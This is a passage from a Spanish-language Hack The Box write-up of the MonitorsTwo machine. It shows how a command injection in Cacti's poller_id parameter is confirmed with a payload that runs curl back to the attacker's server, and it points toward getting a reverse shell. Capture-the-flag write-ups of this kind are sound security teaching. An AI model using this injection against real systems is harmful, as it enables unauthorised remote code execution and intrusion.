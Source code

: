 Vemos que sí extrae contenido, específicamente con el `host_id` número `1` (ya que la iteración va del **0** al **4**), y los `local_data_ids` número `1`, `2`, `3`, `4` y `5` (que incluso pueden ser más, sería agrandar los valores del array) :D 

¡Así que, con esta base, solo nos queda manipular el parámetro `poller_id` y esperar que alguno de los `local_data_ids` tengan seteado `POLLER_ACTION_SCRIPT_PHP`, esto para finalmente entrar en la función `proc_open()` y CAUSAR UNA INYECCIÓN DE COMANDOOOOS REMOTAMENTE!! A darle.

> La inyección de comandos en Linux es muy sencilla, simplemente debemos **añadir** el nuestro sin importar si el legitimo se ejecuta o no, se puede hacer de varias formas, la clasica es usar el caracter `;` como separador: `comando_anterior; comando_malicioso` (podemos agregarle al final un `;` para que cierre nuestro comando y no se concatene con otra cosa).

* [What is OS command injection?](https://portswigger.net/web-security/os-command-injection)

Probando comandos que deberían devolvernos un output (`id`, `hostname`, `whoami`, etc) no obtenemos nada en la respuesta de la petición, por lo que, o tenemos algo mal o pueda que la inyección sea **blind** (que no muestra output), validemos esto último.

Levantemos un servidor con `Python3` (`python3 -m http.server`) , después en el comando le decimos a la máquina víctima que ejecute una petición hacia nuestro servidor (`curl` o `wget`) ¿y si la obtenemooooos? Pues ya estamos! YA ESTAMOS!! e.e

```python
    # ...
    "host_id" : "1",·                                                                                                                                                                                                                   
    "poller_id" : "1; curl http://10.10.14.34:8000/hola-te.veo;"·                                                                                                                                                                       
}
# ...
```

Ejecutamooooooos y en nuestro servidooor:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitorstwo/539bash_py_custom_cactiRCE_pollerIDinjection_CURL_done.png" style="width: 100%;"/>

LIIIIIIISTOOOO! ¡Recibimos la petición, por lo queeee, tenemos ejecución remota de comandooooooooooooooooooos!

> 🌵 Te dejo de tarea obtener la reverse shell, esta bien sencilla, además tienes una pista ahí 🏜️

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitorstwo/539bash_py_custom_cactiRCE_pollerIDinjection_reverseShell_done.png" style="width: 100%;"/>

> SI quieres hacerla linda y completamente funcional, cae [acá](https://lanzt.gitbook.io/cheatsheet-pentest/tty).

---

# capsh: www-data -> root [#](#docker-capsh) {#docker-capsh}

Algo que notamos al obtener la reverse shell es que no estamos en la máquina host, si no, en un contenedor, el cual -contiene- todo él -contenido- (e.e) del servidor web, lo sabemos, ya que entre los procesos internos iniciales del sistema se encuentra la traza:
